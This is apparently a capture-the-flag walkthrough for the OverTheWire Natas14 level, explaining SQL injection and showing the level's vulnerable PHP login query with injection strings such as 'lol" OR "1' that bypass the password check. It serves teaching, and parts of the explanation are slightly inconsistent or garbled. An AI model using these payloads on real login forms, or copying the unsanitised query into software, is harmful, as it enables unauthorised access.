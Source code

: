 # 🔐 Natas14 Walkthrough

We’re presented with a login form. This hints that **SQL Injection** might be the intended path forward.

## 💡 What is SQL Injection?

SQL Injection is a technique used to manipulate a website’s database through its input fields. 

#### Example
Imagine a login system with a SQL query like this:

```php
SELECT * FROM users WHERE username = "$username" AND password = "$password";
```
Now suppose the attacker enters the following credentials:

```
username: admin 
password: password" OR "1 --
```

The query becomes:

```php
SELECT * FROM users WHERE username = "admin" AND password = "" OR 1=1 --";
```

Let's break it down:
- `""` closes the empty password string.
- `OR 1=1` always returns true.
- `--` comments out the rest of the query. (can be useful if you're not sure of the whole output but doesnt have to be used as you'll see in this level.)

So the final condition becomes:

```
username = "admin" AND (false) OR (true)
```
Which effectively bypasses the password check and logs in as `admin`.


## ✅ Exploit

Now, let’s check the source code for Natas14 at [View sourcecode](http://natas14.natas.labs.overthewire.org/index-source.html)

From the source, we see the following PHP code:
```php
$link = mysqli_connect('localhost', 'natas14', '<censored>');
mysqli_select_db($link, 'natas14');
```
Which indicates that the passwords and usernames are taken from a database.

Here’s the vulnerable part:
```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```
This is exactly the kind of vulnerable query we discussed earlier. It takes raw user input and inserts it directly into the SQL query without sanitization. That means **SQL Injection is possible**. Let's get rid of the `\` backticks so that the code is clearer:
```php 
SELECT * from databaseTableOfUsers where username = "$userProvidedUsername" and password = "$userProvidedPassword"
```
As you can see this is almost **exactly** our example.

Let's try the exact same credentials as in the example:

```
username: admin
password: lol" OR "1 
```

Resulting SQL query:
```php
SELECT * FROM users WHERE username="something" AND password="lol" OR "1";
```
The is a SQL comment operator, which means the rest of the query is ignored — effectively skipping the password check.

If successful, you’ll be logged in and shown the password for **Natas15**! :}
